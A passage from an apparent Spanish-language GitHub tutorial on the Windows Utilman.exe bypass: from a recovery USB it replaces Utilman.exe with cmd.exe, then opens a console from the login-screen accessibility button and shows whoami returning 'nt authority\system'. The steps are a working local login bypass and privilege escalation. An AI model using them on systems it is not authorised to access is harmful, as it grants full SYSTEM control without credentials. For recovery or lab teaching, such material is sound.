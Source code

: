 ```cmd
copy cmd.exe Utilman.exe
```

* *Salida:*

```bash
1 archivo(s) copiado(s).
```

*![Copy Cmd](./Images/Usb%20Booteable%20-%20Copy%20Cmd.png "./Images/Usb%20Booteable%20-%20Copy%20Cmd.png")*

---

#### **4. Salir del entorno de recuperación**

```cmd
exit
```

*![Exit Cmd](./Images/Usb%20Booteable%20-%20Exit%20Cmd.png "./Images/Usb%20Booteable%20-%20Exit%20Cmd.png")*

*Selecciona la opción: `Continuar - Salir y continuar con Windows`*

*![Continuar](./Images/Usb%20Booteable%20-%20Continuar.png "./Images/Usb%20Booteable%20-%20Continuar.png")*

---

#### **5. Usar el botón de accesibilidad para ejecutar `cmd`**

**Haz clic en el ícono de accesibilidad en la esquina inferior derecha.**

*![Icon](./Images/Icon%20Accesibilidad.png "./Images/Icon%20Accesibilidad.png")*
*![Accesibilidad](./Images/Usb%20Booteable%20-%20Acceder%20Cmd%20Mediante%20El%20Boton%20De%20Accesibilidad.png "./Images/Usb%20Booteable%20-%20Acceder%20Cmd%20Mediante%20El%20Boton%20De%20Accesibilidad.png")*

*Esto abrirá `cmd.exe` con permisos de SYSTEM:*

*![Consola SYSTEM](./Images/Usb%20Booteable%20-%20Acceder%20Windows%20System32.png "./Images/Usb%20Booteable%20-%20Acceder%20Windows%20System32.png")*

---

#### **6. Confirmar el acceso con `whoami`**

```cmd
whoami
```

* *Resultado:*

```bash
nt authority\system
```

*![Whoami](./Images/Usb%20Booteable%20-%20Whoami.png "./Images/Usb%20Booteable%20-%20Whoami.png")*

---